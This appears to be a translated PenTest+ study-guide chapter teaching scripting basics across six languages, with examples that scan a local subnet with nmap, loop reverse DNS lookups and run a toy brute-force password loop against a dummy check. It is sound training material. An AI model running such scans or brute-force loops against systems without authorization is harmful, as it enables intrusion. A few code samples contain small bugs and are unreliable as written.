在某些情况下，我们需要同时跟踪许多相关变量。例如，我们可能有高中编程课上所有学生的年龄。我们可以为每个学生的年龄创建一个单独的变量，但这会使事情变得非常复杂。我们必须记住所有这些变量的名称。数组提供了一种将这些信息存储在一起的有用方法。例如，我们可以使用以下代码创建一个名为 `ages` 的数组：

```
ages = [16,15,18,15,16,14,13,17,13,14]
```


这会创建一个包含 10 个元素的数组，每个元素对应一名学生的年龄。我们可以从数组中提取单个值并对其进行检查或操作。例如，如果我们想要访问数组中的第一个元素，可以使用以下代码，该代码将返回值 16：

```
ages[0]
```

如果我们的第一个学生过生日了，可以使用以下命令增加该学生的年龄：

```
ages[0] = 17
```

这会更改数组中的单个元素。或者，如果我们想给所有学生的年龄都加 1，可以使用以下命令执行简单的算术运算：

```
ages = ages + 1
```

这将导致一个包含值 \[17,16,19,16,17,15,14,18,14,15\] 的数组。

变量和数组是编程中的核心概念。让我们看看如何在我们的四种编程语言中使用它们。

### Bash

在 Bash 脚本中，你可以通过使用 `=` 运算符为变量赋值来创建变量。然后，可以在变量名前使用 `$` 运算符来引用该变量中存储的值。Bash 中没有变量类型，因此你不需要担心定义变量是包含字符串、数字还是其他类型的数据。解释器会为你处理这些。

以下是用 Bash 编写的纸杯蛋糕脚本：

```
#!/bin/bash
cupcakeprice=2
cupcakeprice=$(( cupcakeprice / 2 ))
echo The price of a cupcake is $cupcakeprice
```

当我们运行此代码时，会得到以下结果：

```
The price of a cupcake is 1
```

你会注意到 Bash 的语法有点繁琐。我们使用双括号运算符——`((` 和 `))`——来告诉 Bash 我们正在执行计算，在此示例中是将纸杯蛋糕的价格除以 2。

你可以在 Bash 中通过将数据放在单个括号内来创建数组。例如，以下是一个简短的 Bash 脚本，它创建前面描述的 `ages` 数组，然后检索数据集中第三个人的年龄：

```
#!/bin/bash
ages=(17 16 19 16 17 15 14 18 14 15)
echo 'The third age is: ' ${ages[2]}
```

此代码会产生以下输出：

```
The third age is:  19
```

注意脚本最后一行有些奇怪的语法。Bash 使引用数组元素变得有点复杂，要求你将数组引用放在花括号 {} 中。这种晦涩的语法是开发人员倾向于转向更高级语言并仅将 Bash 用于快速和粗糙工作的众多原因之一。

### PowerShell

PowerShell 在声明和使用变量方面要简单得多。你只需要记住，每当使用变量时，无论是设置、更改还是检索该变量中存储的值，都要在变量名前加上 `$`。

以下是 PowerShell 中的纸杯蛋糕价格脚本：

```
$cupcake_price = 2.00
$cupcake_price = $cupcake_price / 2
Write-Host "The price of a cupcake is" $cupcake_price
```

与 Bash 不同，PowerShell 确实使用数据类型的概念，但对于简单的脚本，你通常不需要担心它。当你创建变量时，PowerShell 会根据代码的上下文猜测适当的变量类型。这种方法对于 PenTest+ 考试来说已经足够。

现在让我们来看看 PowerShell 中的数组示例。我们创建数组就像创建普通变量一样，但我们提供多个值而不是单个值，并用逗号分隔这些多个值。然后，我们可以通过使用数组名称，然后将我们想要引用的索引放在方括号中来访问数组元素。这种语法与我们在 Bash 中看到的类似，但更简单，因为不需要花括号。以下是创建年龄数组并访问该数组中第三个元素的代码：

```
$ages=17,16,19,16,17,15,14,18,14,15
Write-Host 'The third age is: ' $ages[2]
```

### Ruby

与 Bash 和 PowerShell 类似，Ruby 允许我们通过简单地声明变量来创建变量。然后，我们可以在任何上下文中仅使用变量名来访问该变量。以下是用 Ruby 重写的纸杯蛋糕价格脚本：

```
cupcake_price = 2.00
cupcake_price = cupcake_price / 2
puts 'The price of a cupcake is ', cupcake_price
```

与 PowerShell 类似，Ruby 确实有变量类型，但它会根据代码的上下文为你的数据猜测适当的变量类型。例如，这里 Ruby 推断 `cupcake_price` 是数值，因为它在创建时被赋予了一个小数值。

我们刚才讨论的变量称为 *局部* 变量，这意味着它们仅存在于我们的代码上下文中。Ruby 还有许多其他变量类型，例如全局变量、实例变量、类变量和常量。这些变量类型使用略有不同的语法。这些变量类型超出了本书和 PenTest+ 考试的范围。

Ruby 中的数组与我们讨论过的其他语言中的数组工作方式非常相似。我们通过将逗号分隔的值列表放在方括号 `[]` 中来创建数组，然后通过在数组名后的方括号中放置其整数索引来访问数组元素。以下是访问 Ruby 中年龄数组第三个元素的代码：

```
ages=[17,16,19,16,17,15,14,18,14,15]
puts 'The third age is: ', ages[2]
```

### Python

Python 处理变量的方式与 Ruby 相同，至少就我们的目的而言。Python 允许我们声明变量并自动选择适当的数据类型。我们不需要使用 `$` 或其他特殊字符来引用变量值。以下是 Python 中的纸杯蛋糕定价脚本：

```
cupcake_price = 2.00
cupcake_price = cupcake_price / 2
print('The price of a cupcake is ', cupcake_price)
```

Python 中的数组处理方式与 Ruby 中的数组相同。以下是我们翻译成 Python 的年龄脚本，我们只需要更改代码以使用 Python 的 `print` 函数而不是 Ruby 的 `puts` 函数：

```
ages=[17,16,19,16,17,15,14,18,14,15]
print('The third age is: ', ages[2])
```

## Perl

Perl 处理变量的方式与 PowerShell 非常相似。你只需要在每次使用变量时在变量名前加上 `$`，无论你是设置、更改还是检索该变量中存储的值。

以下是 Perl 中的纸杯蛋糕价格脚本：

```
#!/usr/bin/perl

$cupcake_price = 2.00;

$cupcake_price = $cupcake_price / 2;

print("The price of a cupcake is " . $cupcake_price . "\n");

```

请注意，`.` 运算符在 Perl 中用于连接字符串。此示例中的 `print` 命令组合了三个字符串：“The price of a cupcake is”、计算出的价格和一个换行符。我们将在本章后面更详细地讨论连接。

当我们执行此脚本时，会得到：

```
The price of a cupcake is 1
```

现在让我们来看看 Perl 中的数组示例。我们使用 `@` 运算符代替 `$` 运算符来创建数组，然后将逗号分隔的值放在括号内。我们可以使用此命令创建一个年龄值数组：

```
@ages=(17,16,19,16,17,15,14,18,14,15);
```

然后，我们可以像在 PowerShell 中那样引用单个值，这次使用数组名称（前面加上 `$`！），然后将我们想要引用的索引放在方括号中。这种语法与我们在 Bash 中看到的类似，但更简单，因为不需要花括号。以下是创建年龄数组并访问该数组中第三个元素的代码：

```
@ages=(17,16,19,16,17,15,14,18,14,15);
print("The third age is: " . $ages[2] . "\n");
```

保存并执行此脚本会产生以下输出：

```
The third age is: 19
```

## JavaScript

JavaScript 也不需要显式定义变量类型。它只是以任何逻辑上合理的方式处理它遇到的值。我们在 JavaScript 中使用 `var` 命令声明变量。以下是计算纸杯蛋糕价格的 JavaScript 代码：


```
var cupcake_price = 2.00

cupcake_price = cupcake_price / 2

alert("The price of a cupcake is " + cupcake_price)
```

要执行此脚本，我们将其嵌入 HTML 文件中，与之前一样：

```
<!DOCTYPE html>
<html>
<head>
    <title>Cupcake Price Calculator</title>
    <script>
       var cupcake_price = 2.00
       cupcake_price = cupcake_price / 2
       alert("The price of a cupcake is " + cupcake_price)
    </script>
</head>
<body>
</body>
</html>
```

执行脚本将产生如 图 12.2 所示的输出。


FIGURE 12.2 在 Chrome 浏览器中使用 JavaScript 执行纸杯蛋糕计算器

您可以在 JavaScript 中通过将数组声明为变量，然后用一组用逗号分隔并用方括号括起来的值来填充它来创建数组。例如，以下是查找年龄数组中第三个年龄的代码：

```
var ages=[17,16,19,16,17,15,14,18,14,15]
alert("The third age is: " + ages[2] + "\n")
```

## 比较操作

一旦我们将值存储在变量中，通常会想要对这些值执行比较，以确定两个变量是否具有相同或不同的值。例如，我们可能想要检查一个学生是否比另一个学生年长。同样，我们可能想要将变量与常量值进行比较，例如，检查学生是否超过 18 岁。

我们使用专门的比较运算符执行这些比较，如下表所示。

| || Bash || PowerShell || Ruby || Python || Perl (Numeric Comparison) || Perl (String Comparison) || JavaScript |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| Equality || `–eq` || `–eq` || `==` || `==` || `==` || `eq` || `==` |
| Less than || `–lt` || `–lt` || `<` || `<` || `<` || `lt` || `<` |
| Less than or equal to || `–le` || `–le` || `<=` || `<=` || `<=` || `le` || `<=` |
| Greater than || `–gt` || `–gt` || `>` || `>` || `>` || `gt` || `>` |
| Greater than or equal to || `–ge` || `–ge` || `>=` || `>=` || `>=` || `ge` || `>=` |
| Not equal || `–ne` || `–ne` || `!=` || `!=` || `!=` || `ne` || `!=` |

表中的示例按顺序对两个变量 `x` 和 `y` 执行指定的比较。例如，`x <= y` 检查 `x` 是否小于或等于 `y`。

请注意，Bash 和 PowerShell 的比较运算符相同，Ruby、Python 和 JavaScript 的比较运算符也相同。Perl 在执行数值比较时使用与 Ruby、Python 和 JavaScript 相同的运算符，而在执行字符串比较时使用与 Bash 和 PowerShell 相似（去掉前面的 `‐`）的运算符。您将在本章余下的代码示例中看到这些比较运算符的示例。

## 字符串操作

除了基本比较之外，编写脚本的开发人员通常还需要以其他方式操作字符串。连接是最常见的字符串操作；它允许开发人员将两个字符串合并在一起。例如，假设我们有以下变量：

```
first = "Mike"
last = "Chapple"
```

我们可能想要将这些姓名合并为一个字符串，以便更容易操作。我们可以通过连接这两个字符串来实现。以下是使用 `+` 运算符进行连接的伪代码示例：

```
name = first + last
```

这将产生以下值：

```
MikeChapple
```

当然，我们希望在这些值之间有一个空格，因此可以将其连接到字符串中：

```
name = first + " " + last
```

这将产生以下值：

```
Mike Chapple
```

我们还可能需要将字符串和整数连接在一起。以下是通过先将整数转换为字符串来执行字符串和整数连接的伪代码：

```
prefix = "His age is "
age = 14
statement = prefix + string(age)
```

这将产生以下值：

```
His age is 14
```

我们将在后面的各个部分中，逐一介绍每种语言中字符串/字符串和字符串/整数连接的示例。

另一种常见的字符串操作是对字符串进行编码和解码，以便在 URL 中使用。有许多值不能直接在 URL 中传递，因此必须使用一种称为 *百分比编码* 的过程将其转换为不同的形式。例如，空格不能包含在 URL 中，因为它们会被解释为 URL 的结束。因此，URL 编码将空格替换为百分比代码 `%20`。同样，和号用于分隔 URL 查询字符串中的变量，因此它们不能包含在值中，并被替换为编码 `%26`。下表列出了常用的百分比编码值：

| ASCII 字符 || 百分比编码 |
| --- | --- |
| 空格 || `%20` |
| `!` || `%21` |
| `"` || `%22` |
| `#` || `%23` |
| `$` || `%24` |
| `%` || `%25` |
| `&` || `%26` |
| `'` || `%27` |
| `(` || `%28` |
| `)` || `%29` |
| `*` || `%2A` |
| `+` || `%2B` |
| `,` || `%2C` |
| `‐` || `%2D` |
| `.` || `%2E` |
| `/` || `%2F` |

例如，以下 URL 调用名为 `process.php` 的页面，并尝试将值“Chapple & Seidl”作为变量 `authors` 传递：

[`www.example.com/process.php?name=Chapple & Seidl`](http://www.example.com/process.php?name=Chapple&Seidl)

此 URL 无法正确解析，因为空格和和号是保留字符。我们可以通过对 URL 末尾的字符串进行百分比编码来解决此问题：

[`www.example.com/process.php?name=Chapple%20%26%20Seidl`](http://www.example.com/process.php?name=Chapple%20%26%20Seidl)

### Bash

在 Bash 中连接字符串，只需将变量相邻引用即可。例如，以下是一个脚本，它将名和姓连接起来形成全名：

```
#!/bin/bash

first="Mike "
last="Chapple"

name=$first$last

echo $name
```

这将产生以下输出：

```
Mike Chapple
```

如果我们需要连接字符串和整数，这也同样适用：

```
#!/bin/bash

prefix="His age is "
age=14

sentence=$prefix$age
echo $sentence
```

这将产生以下输出：

```
His age is 14
```

Bash 不提供内置的百分比编码功能。如果您需要对 URL 进行百分比编码，则需要使用其他语言或编写 URL 编码函数。

### PowerShell

PowerShell 使用 `+` 运算符执行字符串连接。以下是用 PowerShell 重写的名称连接脚本：

```
$first="Mike "
$last="Chapple"

$name=$first + $last

Write-Host $name
```

您也可以在 PowerShell 中直接连接字符串和整数。以下是生成年龄句子的代码：

```
$prefix="His age is "
$age=14

$sentence=$prefix + $age

Write-Host $sentence
```

PowerShell 提供了使用 `System.Web` 库执行百分比编码的内置功能。以下是编码字符串“Chapple & Seidl”的示例代码：

```
Add-Type -AssemblyName System.Web

$url = "Chapple & Seidl"

$encodedurl = [System.Web.HttpUtility]::UrlEncode($url)

Write-Host "Original URL: " $url
Write-Host "Encoded URL: " $encodedurl
```

这将产生以下输出：

```
Original URL:  Chapple & Seidl
Encoded URL:  Chapple+%26+Seidl
```

### Ruby

Ruby 也使用连接运算符，因此生成全名的代码与 PowerShell 代码非常相似：

```
first="Mike "
last="Chapple"

name=first + last

puts name
```

但是，Ruby 不允许直接连接字符串和整数。如果您尝试执行此代码：

```
prefix="His age is "
age=14

sentence=prefix + ages
puts sentence
```

您将收到错误消息：

```
string.rb:4:in '+': no implicit conversion of Fixnum into String (TypeError)from string.rb:4:in '<main>'
```


此错误表示 Ruby 尝试将数值变量 `age` 转换为字符串，但不知道如何在没有明确指令的情况下执行该转换。要解决此问题，你必须先使用 `to_s` 方法将整数转换为字符串，该方法返回一个字符串值。以下是生成句子“His age is 14”的修正后的 Ruby 代码：

```
prefix="His age is "
age=14

sentence=prefix + age.to_s
puts sentence
```

Ruby 能够使用 `cgi` 模块中的 `CGI.escape` 函数执行 URL 编码。以下是执行该任务的示例代码：

```
require 'cgi'

url = "Chapple & Seidl"

encodedurl = CGI.escape(url)

puts "Original URL: ", url
puts "Encoded URL: ", encodedurl
```

如果你运行此代码，你会注意到编码后的字符串与前面的示例略有不同，它返回“Chapple+%26+Seidl”，使用 + 符号而不是 `%20` 字符串来表示空格。这些在功能上是等价的结果。

### Python

Python 处理串联的方式与 Ruby 相同。名称串联脚本中唯一的微小差异是将 Ruby 中的 `puts` 函数更改为 Python 中的 `print` 函数：

```
first="Mike "
last="Chapple"

name=first + last

print(name)
```

Python 也不会隐式地将整数转换为字符串。正如你在 Ruby 中使用 `to_s` 方法来显式执行此转换一样，你在 Python 中使用 `str()` 函数来做同样的事情：

```
prefix="His age is "
age=14

sentence=prefix + str(age)
print(sentence)
```

与 Ruby 一样，Python 需要一个单独的模块来执行 URL 编码。你应该使用 `urllib.parse` 库中找到的 `quote_plus` 函数。在 Python 中执行 URL 编码的代码如下：

```
import urllib.parse

url = "Chapple & Seidl"

encodedurl = urllib.parse.quote_plus(url)

print("Original URL: ", url)
print("Encoded URL: ", encodedurl)
```

## Perl

Perl 使用 . 操作来执行字符串串联。以下是用 Perl 重写的名称串联脚本：

```
#!/usr/bin/perl
$first="Mike ";
$last="Chapple";

$name=$first . $last . "\n";

print($name);
```

你也可以在 Perl 中直接串联字符串和整数。以下是生成年龄句子的代码：

```
#!/usr/bin/perl
$prefix="His age is ";
$age=14;

$sentence=$prefix . $age . "\n";

print($sentence);
```

Perl 需要一个单独的模块来执行 URL 编码。你应该使用 `URI::Escape` 模块中找到的 `uri_escape` 函数。在 Perl 中执行 URL 编码的代码如下：

```
#!/usr/bin/perl
use URI::Escape;

$url = "Chapple & Seidl";

$encodedurl = uri_escape($url);

print("Original URL: " . $url . "\n");
print("Encoded URL: " . $encodedurl . "\n");
```

## JavaScript

JavaScript 使用 + 操作来执行字符串串联。以下是用 JavaScript 重写的名称串联脚本：

```
var first="Mike "
var last="Chapple"

var name= first + last

alert(name)
```

你也可以在 JavaScript 中直接串联字符串和整数。以下是生成年龄句子的代码：

```
var prefix = "His age is "
var age = 14;

var sentence = prefix + age

alert(sentence)

```

JavaScript 提供 `encodeURIComponent()` 函数用于 URL 编码。在 JavaScript 中执行 URL 编码的代码如下：

```
var url = "Chapple & Seidl"

var encodedurl = encodeURIComponent(url)

alert("Original URL: " + url + "\n" + "Encoded URL: " + encodedurl + "\n")

```

最后一个示例生成的输出如 图 12.3 所示。


图 12.3 在 Chrome 浏览器中使用 JavaScript 进行 URL 编码

## 流程控制

在我们的任何一种语言中，我们都可以编写一个基本脚本，作为一系列按顺序执行的命令。例如，以下 Python 脚本运行端口扫描，查找 192.168.1.0/24 网络上正在监听 22 端口连接的系统：

```
import nmap

scanner = nmap.PortScanner()

scanner.scan('192.168.1.0/24', '22')

print("Scan complete")
```

此脚本包含四行，Python 将按顺序执行它们。它从第一行开始，该行导入 `Nmap` 模块。该命令完成后，第二行创建一个端口扫描仪，第三行使用该端口扫描仪运行网络扫描。最后，第四行向用户打印一条消息，表明扫描已完成。

尽管我们刚刚查看的示例脚本按顺序运行，但并非每个脚本都是这样工作的。流程控制机制为开发人员提供了一种改变程序流程的方法。在以下部分中，我们将探讨两种流程控制技术：条件执行和循环。

### 条件执行

条件执行允许开发人员编写仅在满足某些逻辑条件时才执行的代码。最常见的条件执行结构是 `if..then..else` 语句。该语句的一般思想在以下伪代码中总结：

```
if (logical_test1) then
     command1
else if (logical_test2) then
     command2
else if (logical_test3) then
     command3
else
     command4
```

其工作原理如下。当程序到达代码的这一部分时，它首先检查 `logical_test1` 是否为真。如果是，则执行 `command1`，整个代码语句即完成，无需执行任何其他检查。如果 `logical_test1` 为假，则程序检查 `logical_test2`。如果为真，则执行 `command2`。如果 `logical_test2` 为假，程序检查 `logical_test3`。如果该测试为真，则执行 `command3`。如果所有三个逻辑测试均为假，则执行 `else` 子句中包含的 `command4`。这种使用真和假值的逻辑测试是执行布尔运算的一个示例。

`if..then..else` 语句可以有一个、多个或没有 `else if` 子句。`else` 子句也是可选的。重要的是要记住，无论你的语句中有多少个子句，只有一个可以执行。

`if..then..else` 语句的基本结构存在于每种编程语言中。唯一的区别在于语法。让我们来看看每种语言。我们将用每种语言编写一个脚本，该脚本在星期一扫描 Web 服务器，在星期三扫描数据库服务器，并在其他天执行完整的网络扫描。

### Bash

在 Bash 中，`if..then..else` 语句的语法如下：

```
if [ logical_test1 ]
then
     command1
elif [ logical_test2 ]
     command2
else
     command3
fi
```

请注意使用方括号包含逻辑条件、开始 `else if` 语句的 `elif` 关键字，以及整个块以 `fi`（if 倒拼）关键字结束的事实。

以下是我们如何编写代码来在星期一扫描位于 192.168.1.1 的系统，在星期三扫描位于 192.168.1.2 的系统，并在其他天扫描整个网络：

```
#!/bin/bash

weekday=$(date +%u)

if [ $weekday==1 ]
then
        /usr/local/bin/nmap 192.168.1.1

elif [ $weekday==3 ]
then
        /usr/local/bin/nmap 192.168.1.2

else
        /usr/local/bin/nmap 192.168.1.0/24
fi
```

在此代码中，`$weekday` 是一个包含对应于星期的数值的变量，其中 1 是星期一，7 是星期日。暂时不必太担心该语法。我们将在本章后面介绍变量。现在专注于控制流程。你应该能够看到脚本如何检查星期几并决定执行什么命令。

### PowerShell

PowerShell 也提供 `if..then..else` 子句，但语法略有不同。PowerShell 中语句的一般语法如下：

```
if (logical_test1){
     command1
}
elseif (logical_test2) {
     command2
}

else {
     command3
}
```


这里是上一节中我们用 Bash 编写的相同 Nmap 脚本，使用 PowerShell 重写：

```
$weekday=(get-date).DayOfWeek
 
if ($weekday -eq 'Monday') {
       C:\nmap\nmap.exe 192.168.1.1
}
 
elseif ($weekday -eq 'Wednesday') {
       C:\nmap\nmap.exe 192.168.1.2
}
 
else {
       C:\nmap\nmap.exe 192.168.1.0/24
}
```

请注意，PowerShell 使用 `elseif` 而不是 Bash 的 `elif`，并且还使用花括号（`{}`）来括起命令块。这里还有几个其他差异，包括 PowerShell 查找星期几和执行比较的方式，但你应该能看到此代码与 Bash 代码之间的结构相似性。

### Ruby

与 Bash 和 PowerShell 类似，你会在 Ruby 语言中找到完全功能的 `if..then..else` 语句结构。同样，它使用与其他两种语言略有不同的语法。让我们先看看 Ruby 语法：

```
if logical_test1
     command1
elsif logical_test2
     command2
else
     command3
end
```

下面是运行与我们前两个示例相同 Nmap 扫描的代码，但这次使用 Ruby 编写：

```
weekday = Time.new.wday
 
if weekday == 1
     system 'nmap 192.168.1.1'

elsif weekday == 3
     system 'nmap 192.168.1.2'
else
     system 'nmap 192.168.1.0/24'
end
```

到现在，这种结构对你来说应该相当熟悉。请注意此代码与 Bash 和 PowerShell 示例之间的差异。两个关键差异是使用 `elsif` 关键字，以及整个语句必须以 `end` 关键字结束。

### Python

最后，Python 也包含一个 `if..then..else` 语句，使用以下语法：

```
if logical_test1:
     command1
elif logical_test2:
     command2
else:
     command3
```

在前一节中，我们编写了一个基本的 Python 脚本，旨在运行单个 Nmap 扫描。让我们现在修改该代码，以执行我们在 Bash、PowerShell 和 Ruby 中编写的相同条件执行任务：

```
import nmap
import datetime
 
weekday = datetime.date.today().weekday()
 
nm = nmap.PortScanner()
 
if weekday == 1:
     nm.scan('192.168.1.1')
elif weekday == 3:
     nm.scan('192.168.1.2')
else:
     nm.scan('192.168.1.0/24')
```

再次，我们看到 `if..then..else` 子句的熟悉结构。在这种情况下，Python 使用与 Bash 相同的 `if`、`elif` 和 `else` 关键字。这里的区别特征是在每个逻辑条件后使用冒号。

## Perl

Perl 的条件流程逻辑使用与其他语言类似的语法。Perl 中语句的一般语法如下：

```
if(logical_test1){
     command1
}elsif(logical_test2) {
     command2
}else{
     command3
}
```

与 Python 类似，Perl 也使用一个名为 `Nmap::Scanner` 的模块来直接与 Nmap 交互。下面是使用 Perl 在 Nmap 中执行与前几节相同任务的代码：

```
#!/usr/bin/perl
 
use Time::Piece qw(localtime);
 
$time = localtime;
$weekday = $time->day_of_week;
 
if($weekday == 1){
       system('nmap 192.168.1.1');
}elsif($weekday == 3){
       system('nmap 192.168.1.2');
}else{
       system('nmap 192.168.1.0/24');
}
```

## JavaScript

JavaScript 也提供使用以下语法的条件执行语句：

```
if(logical_test1){
     command1

} else if(logical_test2) {
     command2
} else {
     command3
}
```

由于我们在浏览器中执行 JavaScript，尝试执行 Nmap 扫描没有意义。下面是使用 JavaScript 打印星期几的示例：

```
var d = new Date()
var weekday = d.getDay()
 
if(weekday == 1){
     alert('Today is Monday')
} else if(weekday == 3) {
     alert('Today is Wednesday')
} else {
     alert('Today is neither Monday nor Wednesday')
}
```

#### 识别条件执行语句的语言

在准备考试时，你应该准备好分析一段代码并识别脚本使用的语言。请记住，答案只能是 PenTest+ 考试涵盖的六个选项之一：Bash、PowerShell、Ruby、Python、Perl 或 JavaScript。

如果你在代码段中看到条件执行语句，你可能能够仅凭该代码段来确定正在使用的语言。图 12.4 包含一个旨在帮助你做出决定的流程图。

### `for` 循环

循环操作允许你重复执行同一代码块多次。例如，你可能希望运行某段代码 25 次，或针对列表中的每个变量运行一次。`for` 循环是将循环插入代码的一种方式。下面是 `for` 循环结构的伪代码示例：

```
for variable = start to finish
     code statements
```

这个 `for` 循环将创建一个名为 `variable` 的新变量，并赋予其 `start` 中指定的起始值。然后它将第一次运行代码语句。完成后，它将向 `variable` 的值加 1，并再次执行代码语句。此过程将重复，直到 `variable` 取值为 `finish`。该语句的精确行为，包括当 `variable` 的值等于 `finish` 时是否再次执行代码，取决于所使用的编程语言。


图 12.4 识别条件执行语句的语言

下面是一个更具体的示例，仍然使用伪代码编写：

```
for i = 0 to 10
     print i
```

这个 `for` 循环将产生以下结果：

```
0
1
2
3
4
5
6
7
8
9
```

同样，它可能会打印一行包含值 10 的额外内容，具体取决于所使用的编程语言。

### Bash

Bash 中 `for` 循环的一般语法为：

```
for variable in range
do
     commands
done
```

使用此语法时，你可以以多种不同格式提供 `range`。如果你希望 `for` 循环遍历一系列连续的整数值，可以使用 `{start..finish}` 格式指定它们。例如，此脚本对 192.168.1.0 到 192.168.1.255 之间的所有 IP 地址执行反向 DNS 查找：

```
#!/bin/bash
 
net="192.168.1."
for hst in {0..255}
do
     ip="$net$hst"
     nslookup $ip
done
```

在分析此脚本时，思考一下它的工作原理。它首先创建一个名为 `net` 的变量，该变量包含所有 IP 地址的网络前缀，值为 192.168.1。然后它开始一个基于新变量 `hst` 的 `for` 循环，该变量包含一个从值 0 开始并迭代直到达到值 255 的整数。在每次迭代中，代码创建一个名为 `ip` 的字符串，该字符串包含 `net` 前缀后跟 `hst` 后缀。在第一次迭代中，该字符串的值为 192.168.1.0。在下一次迭代中，它的值为 192.168.1.1。在最后一次迭代中，它的值为 192.168.1.255。在每次迭代期间，代码使用 `nslookup` 命令检查与 IP 地址关联的域名。

如果这让你感到困惑，请不要太担心。请记住，PenTest+ 考试不要求你 `编写` 代码，只要求你 `分析` 代码。指望你能拿起一本书并在四种不同的编程语言中学习编写代码是不合理的！

### PowerShell

PowerShell 中 `for` 循环的基本语法为：

```
for (start, test, increment)
{
     commands
}
```

虽然此代码执行与 Bash 中 `for` 循环相同的任务，但它使用不同的语法来处理任务。`start` 语句通常声明一个新的计数器变量并设置其初始值。`test` 语句指定 `for` 循环应继续的条件。`increment` 语句提供每次循环完成后应运行的代码。

例如，下面是 PowerShell 代码，它执行与前一节中 Bash 脚本相同的任务：


```
$net="192.168.1."
     
for($hst = 0; $hst -lt 256; $hst++)
{
    $ip= $net + $hst
    nslookup $ip
}
```

我们再次拥有一个包含网络前缀的 `$net` 变量和一个包含主机后缀的 `$hst` 变量。`for` 循环通过将 `$hst` 变量设置为 0 来初始化，然后在每次迭代后使用 `$hst++` 操作将 `$hst` 的值增加 1。测试 `$hst ‐lt 256` 使循环在 `$hst` 的值小于 256 时继续。因此，最后一次迭代将是 `$hst` 值为 255 的情况。否则，该代码的功能与上一节中的 Bash 脚本相同，执行从 192.168.1.0 到 192.168.1.255 的 IP 地址的名称查找。

### Ruby

Ruby 中 `for` 循环的基本语法是：

```
for variable in range do
     commands
end
```

除了一些微小的语法差异外，此结构与 Bash 中 `for` 循环的结构相同。以下是将域名查找脚本转换为 Ruby 的示例：

```
net = '192.168.1.'
 
for hst in 0..255 do
     ip= net + hst.to_s
     system 'nslookup ' + ip
end
```

### Python

你会发现 Python `for` 循环的语法与 Bash 和 Ruby 的语法非常相似。以下是一般结构：

```
for variable in range:
     commands
```

一个重要的注意事项：在 Python 中指定范围时，它包含起始值但不包含结束值。因此，要指定从 0 到 255 的数字范围，我们将起始值指定为 0，结束值指定为 256，使用语法 `(0,256)` 。以下是将 Nslookup 脚本转换为 Python 的示例：

```
import socket
 
net = '192.168.1.'
 
for hst in range(0,256):
     ip= net + str(hst)
     print(ip, ': ', socket.gethostbyaddr(ip), '\n')
```

## Perl

Perl 的 `for` 循环语法允许你指定一个初始步骤、循环应继续的条件以及一个递增语句。以下是语法：

```
for ( initialization; condition; increment ) {
       <?i Start?>commands<?i End?>
}
```

执行一系列 `nslookup` 命令的代码将如下所示：

```
#!/usr/bin/perl
 
 
$net = "192.168.1.";
 
for ( $hst = 1; $hst < 256; $hst = $hst + 1 ) {
        $ip = $net . $hst;
        $domain = system('nslookup ' . $ip);
}
```

## JavaScript

JavaScript 使用与 Perl 相同的三个 `for` 循环元素，语法相似：

```
for (initialization; condition; increment) {
       commands
}
 
```

以下 JavaScript 代码遍历一系列 IP 地址：

```
var net = '192.168.1.'
 
for (let hst=1; hst < 10; hst++) {
       var ip = net + hst
       alert(ip)
}
```

## 识别 `for` 循环的语言

如果你看到一个测试问题要求你识别代码段中使用的语言，并且你在该段中发现了一个 `for` 循环，你可能有足够的信息来识别该语言。图 12.5 包含一个旨在帮助你做出决定的流程图。


图 12.5 识别 `for` 循环的语言

## `while` 循环

`while` 循环是另一种循环语句。与 `for` 循环类似，`while` 循环多次重复一段代码。它们不是重复固定次数，而是重复直到条件不再为真。它们使用以下一般语法：

```
while (condition)
     code statements
```

代码语句将对 `condition` 语句中检查的变量进行一些修改。`while` 循环将连续重复，直到 `condition` 计算结果为 false。例如，这个 `while` 循环探测防火墙端口，直到检测到开放端口：

```
open=0
port=0
while (open==0)
     open=check_firewall_port(port)
     port++
```

此代码将从端口 0 开始，检查该端口在防火墙上是否开放。如果开放，`open` 的值将变为 1，循环将停止。如果未开放，`while` 循环将重复，检查端口 1。如果防火墙上没有开放端口，此代码将永远运行（或者至少直到我们超过操作系统的最大整数值！）。

我们在此示例中确实取了另一种自由。我们引入了一个名为 `function` 的新结构来隐藏一些代码。代码 `check_firewall_port(port)` 正在调用名为 `check_firewall_port` 的函数，并传入参数 `port` 。我们假设有人已经编写了此函数，我们可以简单地重用它。在随后的特定于语言的示例中，我们将向你展示一些简单的函数。函数的基本思想是：你用 0 个或多个参数调用它，它运行一些代码。然后它返回一个值，该值是函数的结果，我们可以将其存储在变量中。在此示例中，`check_firewall_port` 函数在防火墙端口开放时返回值 1，在关闭时返回值 0。

### Bash

Bash 中 `while` 循环的基本结构是：

```
while [ condition ]
do
     code statements
done
```

这是我们已经讨论过的一般 `while` 语法的直接实现。让我们看看 Bash 脚本中的一个示例。以下代码旨在执行一种简化的密码破解形式，假设我们要破解的密码是名称 `mike` 后跟一个整数。它只是检查所有可能的密码，从 `mike0` 开始，继续 `mike1`、`mike2`，依此类推，直到找到正确值。

```
#!/bin/bash
 
test_password() {
     if [ $1 = 'mike12345' ]
     then
          return 1
     else
          return 0
     fi
}
 
cracked=0
i=0
 
while [ $cracked -eq 0 ]
do
     test="mike$i"
     test_password $test
     cracked=$?
     ((i++))
done
 
echo 'Cracked Password:'$test
```

代码的第一部分创建了一个名为 `test_password` 的函数。在我们的简单示例中，该函数只是检查正在测试的密码是否等于正确密码值 `mike12345` 。在真正的密码破解器中，此函数将连接到目标系统并尝试正在测试的密码。但我们不想在这里进行真正的密码猜测攻击，因此我们将使用这个虚拟函数。

接下来，我们将两个变量设置为 0。第一个变量 `cracked` 是我们将在条件中使用的标志变量。当其设置为 0 时，我们认为该值为 false：密码尚未被破解。当我们找到正确密码时，我们将其设置为 1，即 true，以表示我们已破解密码。第二个变量 `i` 是我们将用来组合密码的计数器。

从那之后，我们进入 `while` 循环。我们希望继续运行代码，直到密码被破解且 `cracked` 变量取值为 1。在每次迭代中，我们将使用前面描述的公式组合一个新密码，然后使用 `test_password` 函数对其进行检查。然后我们将 `cracked` 变量设置为该函数的输出，并将 `i` 的值增加 1。

此循环只有在找到正确密码时才会退出，因此我们在循环末尾放置了打印 `test` 最终值的代码，该值包含破解的密码。

当我们运行此脚本时，我们看到以下输出：

```
Cracked Password:mike12345
```

这告诉我们 `while` 循环执行了 12,346 次。它循环了从 `mike0` 到 `mike12344` 的 12,345 个错误选项，然后才找到正确密码：`mike12345` 。

### PowerShell

PowerShell 中 `while` 循环的基本结构是：

```
Do {
     code statements
}
While(condition)
```


